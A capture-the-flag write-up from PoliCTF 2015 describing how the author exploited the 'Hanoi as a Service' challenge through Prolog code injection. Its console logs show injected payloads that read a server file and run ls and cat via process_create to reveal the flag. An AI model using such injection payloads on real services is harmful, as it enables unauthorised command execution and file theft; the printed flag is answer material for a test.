 ```yaml
---
layout: post
title: "PoliCTF 2015 - Hanoi as a Service"
categories: writeups polictf-2015
author: thezero
tags: pwnable
---
```


## Hanoi as a Service
Pwnable - 50 Points

Check out our shiny new HaaS platform!<br/>
`nc haas.polictf.it 80`

### Writeup

We started playing with the Hanoi service:
{% highlight console %}
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
3
* Move top disk from a to b
* Move top disk from a to c
* Move top disk from b to c
* Move top disk from a to b
* Move top disk from c to a
* Move top disk from c to b
* Move top disk from a to b
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
-1  
ERROR: Prolog initialisation failed:
ERROR: Out of local stack
{% endhighlight %}

Yeah, Prolog.<br/>
Tiping random input in prolog we landed on a Python exception talking about a `/home/ctf/haas/haas-proxy.py` file.<br/>
We want to read that file so bad that we ask to ocean (the CTF organizer) if it was Open Source :D<br/>

{% highlight console %}
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0),shell("cat /home/ctf/haas/haas-proxy.py")
Nice try...
{% endhighlight %}

So, there are some checks on the input afterall ahaha<br/>
We tried reading the file with prolog itself<br/>

{% highlight console %}
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0),open('/home/ctf/haas/haas-proxy.py',read,X),read_line_to_codes(X, A),write_ln(A
[35,33,47,117,115,114,47,98,105,110,47,101,110,118,32,112,121,116,104,111,110]
{% endhighlight %}

Converted the array to string
{% highlight javascript %}
var s=[35,33,47,117,115,114,47,98,105,110,47,101,110,118,32,112,121,116,104,111,110],s1=""
for(var i=0;i<s.length;i++){
   s1+=String.fromCharCode(s[i]);
}
console.log(s1)
// output: #!/usr/bin/env python
{% endhighlight %}

With this method we can only read the first line.<br/>
Reading the Prolog documentation we hit the "process_create/3" function.<br/>
MUAHAHAHAHAHAHAHAH<br/>

{% highlight console %}
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0),process_create(path(ls),['-l','/home/ctf/haas'],[]
total 372
-rwxr-x--- 1 ubuntu ctf 369220 Jun  1 12:27 haas
-rwxr-x--- 1 ubuntu ctf   1572 Jun  1 12:27 haas-proxy.py
-r--r----- 1 ubuntu ctf     35 Jun  1 12:18 jhknsjdfhef_flag_here
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0),process_create(path(cat),['/home/ctf/haas/jhknsjdfhef_flag_here'],[]
flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
{% endhighlight %}


Game, Set, Match.

PS: As promised, the [haas-proxy.py sources](https://gist.github.com/TheZ3ro/869ca084df8f4d5d58ea)
